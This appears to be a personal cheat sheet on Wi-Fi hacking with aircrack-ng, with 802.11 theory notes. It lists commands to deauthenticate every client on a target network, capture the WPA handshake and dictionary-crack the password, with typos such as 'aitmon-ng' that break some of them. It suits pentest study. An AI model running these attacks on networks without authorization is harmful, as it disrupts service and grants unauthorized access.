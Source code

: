 # Wifi

## Tools

### aircrack-ng (manual)

#### Eliminate processes that prevent putting the monitor mode

```aitmon-ng check kill```

#### Discovering Wifi Networks

- Put the indicated network card in monitor mode

```airmon-ng start [interface-name]```

- Search networks

```airodump-ng [interface-name-monitori-mode]```

#### Snifing trafic

- Only sniff traffic from an AP

```airodump-ng -c1 --bssid [BSSID]```

#### Deautenticate Atack

- Configuration of the card in the wiffi network channel to deauthenticate

```iwconfig [interface-name-monitori-mode] channel [nº-wifi-to-desauth]```

- Deauthentication attack against the entire network

```aireplay-ng --deauth [nº-paqutes(50)] -a [BBID-to-hack] [interface-name-monitori-mode]```

#### Capture handshake

- Packet sniffing of a specific AP and stored in a file

```airodump-ng -c [nº-wifi-to-desauth] --bssid [BBID-to-hack] -w [file-to-save] [interface-name-monitori-mode]```

- Processs:
	1º Deautenticar AP 
	2º Whait until reconecting
	3º The password is stored encrypted in the specified file
			
#### Crack Pasword

- Password cracking using dictionary from handshake capture

```aircrack-ng -w [path-dictionary] -b [BBID-to-hack] [captura.pcap]```

-  airgeddon (Automatic)
	Download from [github](https://github.com/v1s1t0r1sh3r3/airgeddon)

## Teoria

Standar Wifi 802.11

### SSID: 

Transmitted on all packets in the network segment

Is public

### BSSID

Is de BSSID of had-doc networks

### ESSID

Is de SSID of de AP networks

### Functions modes

AP or Infraestructure:

WDS (Wireless Distribution System)

WDS con AP

Repeater (Ranger Extender)

Wireless Client

### Deteccion de Redes

Using  Beacoms Frames:

-  Periodically transmitted packets containing MAC and SSID

Channel exploration

Creation of available listings

### Paquetes

Administrative ramework

- Maintain communication between APs and wireless clients
- Auth
- Association Resquest
- Assosiation Respones
- Beacoms

Probe Request

Control framework: They guarantee the proper exchange between AP and clients

- Request to Sender (RTS) => Shipping request
- Clear to Send ()CTS => Free to send
- ACK => Confirmation

Data framework: They transport the real data of the established communication

### Autentications types

Open

Shae Key:

- WEB
- WPA-PSK
- WPA2-PSK
		